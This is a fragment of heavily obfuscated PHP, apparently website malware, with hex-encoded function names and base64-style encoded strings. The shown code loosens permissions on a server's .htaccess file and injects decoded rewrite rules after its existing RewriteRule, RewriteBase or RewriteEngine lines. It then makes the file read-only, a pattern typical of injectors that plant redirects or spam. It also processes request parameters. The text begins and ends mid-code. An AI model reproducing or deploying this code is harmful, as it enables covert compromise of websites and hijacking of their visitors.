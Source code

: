 $lfasv){$O0OO0_O0__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\':\',$lfasv);$OO__0_O0O0[$O0OO0_O0__[0]]=$O0OO0_O0__[1];unset($O0OO0_O0__,$lfasv,$O0OO0_O0___key);}unset($O_0OO_O00_,$OOO_00O_0_);$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/A/",$OO__0_O0O0["\x72\x72\x61"],$OOO00_0O__);$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/B/",$OO__0_O0O0["\x72\x72\x62"],$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]);$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/C/",$OO__0_O0O0["\x72\x72\x63"],$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]);$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/D/",$OO__0_O0O0["\x72\x72\x64"],$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x75\x72\x6c\x66"]);$OOO___000O["\x6c\x69\x6e\x6b\x66"]["\x70\x6f\x73\x69"]=$OO__0_O0O0;$OOO___000O["\x63\x6b\x65\x79\x73"]=$O0O0__O0O_;unset($O0O_OO0_0_,$O0O__O_00O,$O0OO_0_0O_,$OOO0__0O0_,$O0O0__O0O_,$OOO00_0O__);}return $OOO___000O;');$O0O0_O_O0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$O0OO0___0O=\'\',$O_00_OO0O_=1','if($O0OO0___0O!=\'\'){if($O_00_OO0O_){$O_0OO__00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'09PXyhTyhJTE5OLS4tPGAA==\');if($O_0OO__00O!=\'\'&&${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x5f\x5f\x4f\x30\x30\x30\x5f\x4f"]($O_0OO__00O)){@${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x4f\x30\x5f\x5f\x4f\x30"]($O_0OO__00O,0777);$OO___O00O0=@${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x4f\x5f\x5f\x5f\x30\x30"]($O_0OO__00O);if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x30\x30\x5f\x5f\x4f\x5f"]($OO___O00O0,$O0OO0___0O)===false){$O_0O00O_O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/\\\\\\$/s",\'\\\\\\$\',$O0OO0___0O);if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x30\x30\x5f\x5f\x4f\x5f"]($OO___O00O0,\'%{HTTP_HOST}\')!==false&&${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x30\x30\x5f\x5f\x4f\x5f"]($OO___O00O0,\'R=301\')!==false){$OO___O00O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/(RewriteRule.*?R=301.*?[\\r\\n])/si","$1\\n{$O_0O00O_O_}\\n",$OO___O00O0,1);}elseif(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x30\x30\x5f\x5f\x4f\x5f"]($OO___O00O0,\'RewriteBase\')!==false){$OO___O00O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/(RewriteBase.*?[\\r\\n])/si","$1\\n{$O_0O00O_O_}\\n",$OO___O00O0,1);}elseif(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x30\x30\x5f\x5f\x4f\x5f"]($OO___O00O0,\'RewriteEngine\')!==false){$OO___O00O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/(RewriteEngine.*?[\\r\\n])/si","$1\\n{$O_0O00O_O_}\\n",$OO___O00O0,1);}else{$O000__O_OO=array();${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x4f\x4f\x5f\x5f\x30\x4f\x5f"]("/RewriteRule.*?[\\r\\n]/si",$OO___O00O0,$O000__O_OO);if(!empty($O000__O_OO)&&isset($O000__O_OO[0])){$OO___O00O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x5f\x30\x4f\x4f\x30\x5f\x5f\x30"]($O000__O_OO[0],"\\n".$O0OO0___0O.$O000__O_OO[0],$OO___O00O0);}unset($O000__O_OO);}$O0_O0OO_0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"]("\\n",$OO___O00O0);if(!empty($O0_O0OO_0_)){foreach($O0_O0OO_0_ as $O0_0_O0O_O=>&$O_00__OO0O){$O_00__OO0O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x30\x4f\x4f\x5f"]($O_00__OO0O);if($O_00__OO0O==\'\'){unset($O0_O0OO_0_[$O0_0_O0O_O]);}}}$OO___O00O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x30\x5f\x4f\x5f\x4f\x4f\x30\x30"]("\\n",$O0_O0OO_0_);unset($O0_O0OO_0_,$O_0O00O_O_);$OO___O00O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/(^[\\s\\r\\n]+|[\\s\\r\\n]+$)/si",\'\',$OO___O00O0);@${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30\x4f\x30"]($O_0OO__00O,$OO___O00O0);}}else{$OO___O00O0="<IfModule mod_rewrite.c>\\nRewriteEngine On\\n".$O0OO0___0O."\\n</IfModule>\\n";@${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30\x4f\x30"]($O_0OO__00O,$OO___O00O0);unset($OO___O00O0,$O_0OO__00O);}@${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x4f\x30\x5f\x5f\x4f\x30"]($O_0OO__00O,0444);}}');$O__0_00OOO=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$OOO_00_O0_=\'\',$O00O0_O__O=false,$O0_OO00O__=1','$O_O0OO00__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'s8/JLhTC6JL0ktPtLgEA\');$O_O_00O0_O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'U8vJLhTC6JL0ktPtLgEA\');if($O00O0_O__O){return $O0_OO00O__;}else{if($OOO_00_O0_!=\'\'){return $OOO_00_O0_;}else{$O_0__OOO00=0;if(isset(${"\x5f\x47\x45\x54"})&&!empty(${"\x5f\x47\x45\x54"})){foreach(${"\x5f\x47\x45\x54"} as